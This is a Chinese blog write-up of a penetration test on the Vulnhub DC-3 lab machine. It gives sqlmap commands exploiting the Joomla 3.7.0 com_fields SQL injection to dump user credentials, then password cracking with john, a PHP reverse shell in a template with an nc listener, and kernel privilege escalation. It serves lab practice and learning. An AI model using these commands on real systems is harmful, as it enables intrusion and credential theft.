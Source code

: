 ```yaml
---
title: DC_3靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 渗透测试
tags: [渗透测试, DC]   # 可以是数组
top: false

---
```


# DC_3靶机渗透测试

[参考链接1]([DC3靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1802814?from=article.detail.1801074))

[参考链接2]([靶机渗透测试实战（三）——DC-3 - 尚码园 (shangmayuan.com)](https://www.shangmayuan.com/a/8933d01639f64ed2a076712a.html))

[参考链接3]([Vulnhub靶机DC系列-DC3 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/260547.html))

[**参考链接4**]([Vulnhub - DC3 writeup (mzfr.me)](https://blog.mzfr.me/vulnhub-writeups/2019-07-12-DC3))

### 一、信息收集

- 发现DC_3, IP为192.168.0.106，开启80端口，http服务，cms为joomla

![image-20210623010130599](http://cdn.mxrblog.cn/image-20210623010130599.png)

- 登录192.168.0.106

![image-20210623011133176](http://cdn.mxrblog.cn/image-20210623011133176.png)

- 使用joomscan对靶机进行扫描,得到joomscan的版本是3.7.0

```
joomscan -u 192.168.0.106
```

![image-20210625224116900](http://cdn.mxrblog.cn/image-20210625224116900.png)



### 二、寻找漏洞

- 在本地漏洞库中搜索joomla 3.7.0 ， 发现sql注入漏洞



![image-20210625224354232](http://cdn.mxrblog.cn/image-20210625224354232.png)

- 查找漏洞文件，并且查看

![image-20210625224614520](http://cdn.mxrblog.cn/image-20210625224614520.png)

- **查看数据库**, 发现数据库joomladb

```
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20210625225521733](http://cdn.mxrblog.cn/image-20210625225521733.png)

- **查看表**

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb  --tables -p list[fullordering]
```

![image-20210625232524893](http://cdn.mxrblog.cn/image-20210625232524893.png)

- **查看列**

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -columns -p list[fullordering]
```

![image-20210625233936602](http://cdn.mxrblog.cn/image-20210625233936602.png)

- **查看列名为id和password的值**

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "username,password" -dump  -p list[fullordering]
```

![image-20210625234159326](http://cdn.mxrblog.cn/image-20210625234159326.png)

- 新建123.txt文件，将经过加密的密码输入进去，通过john进行解密, 密码是snoopy

```
john 123.txt
```

![image-20210625235501516](http://cdn.mxrblog.cn/image-20210625235501516.png)

- 进入后台，发现第二个默认用于所有页面的模板

![image-20210626011114780](http://cdn.mxrblog.cn/image-20210626011114780.png)

- 按照上面分析的选择第二个

![image-20210626011026448](http://cdn.mxrblog.cn/image-20210626011026448.png)



- 插入反弹shell(端口由8080改为4443)

![Screenshot 2021-06-26 011410](http://cdn.mxrblog.cn/Screenshot 2021-06-26 011410.png)

- 执行反弹shell

```
进入 http://192.168.0.106/templates/protostar/index.php
并在攻击机器上执行  nc -nlvp 4443
```

![image-20210626014102164](http://cdn.mxrblog.cn/image-20210626014102164.png)



### 三、进行提权

- 查看内核及其版本

![image-20210626014743668](http://cdn.mxrblog.cn/image-20210626014743668.png)

- 寻找相关linux漏洞，选择第二个

![image-20210626015345596](http://cdn.mxrblog.cn/image-20210626015345596.png)

- 查看内容，并下载相应文件

![image-20210626020732742](http://cdn.mxrblog.cn/image-20210626020732742.png)

![image-20210626020626676](http://cdn.mxrblog.cn/image-20210626020626676.png)

- 用python开启简单的服务器功能

```
python -m SimpleHTTPServer 9000
```

![image-20210626023629392](http://cdn.mxrblog.cn/image-20210626023629392.png)

- 这一步很重要，要不然靶机无权限下载内容

![image-20210626023758606](http://cdn.mxrblog.cn/image-20210626023758606.png)

- 靶机接收文件

![](http://cdn.mxrblog.cn/image-20210626023517587.png)

![image-20210626024815589](http://cdn.mxrblog.cn/image-20210626024815589.png)

![image-20210626024654502](http://cdn.mxrblog.cn/image-20210626024654502.png)

![image-20210626024918136](http://cdn.mxrblog.cn/image-20210626024918136.png)

![image-20210626024958777](http://cdn.mxrblog.cn/image-20210626024958777.png)



### 四、总结

- joomscan
- searchsploit
- SQL injection
- sqlmap
- lsb_release
- john
- php reverse shell
- python’s HTTP server